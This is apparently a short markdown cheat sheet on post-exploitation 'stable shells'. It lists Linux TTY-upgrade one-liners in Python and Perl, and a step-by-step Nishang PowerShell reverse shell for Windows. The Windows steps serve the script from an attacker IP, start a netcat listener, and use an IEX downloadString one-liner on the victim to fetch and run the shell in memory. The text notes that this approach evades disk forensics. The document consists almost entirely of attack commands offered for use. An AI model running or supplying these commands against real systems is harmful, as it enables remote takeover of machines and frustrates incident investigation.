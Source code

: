 # Stable Shells (Post-Exploitation)

----------------------------------------------------
## Linux: 

### Python pty Shell
1.`python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Ctrl+Z
3. stty raw -echo;fg 

### Perl system command one liner
`perl -e 'system("/bin/bash -p");'`



## Windows:

### Using Nishang

   * On Attacker's machine:
   1. Copy *nishang/Shells/Invoke-PowerShellTCP.ps1* to pwd and name it *nishang.ps1*
   2. Add line *Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 4444* to the end of the file.
   3. Use the command `python -m SimpleHTTPServer` to make start a server on pwd.
   4. Start a netcat listener `nc -lvp 4444` 

   * On Victim's machine:
   1. Use the command `powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')` to 
   	  start a reverse shell on the machine.
   2. *downloadString* in the above command will not download the file, instead it will copy the contents of the file to the
      memory and executed directly from there. This leaves no trace of the file on the disk, and thus makes job of forensics 
      harder.

  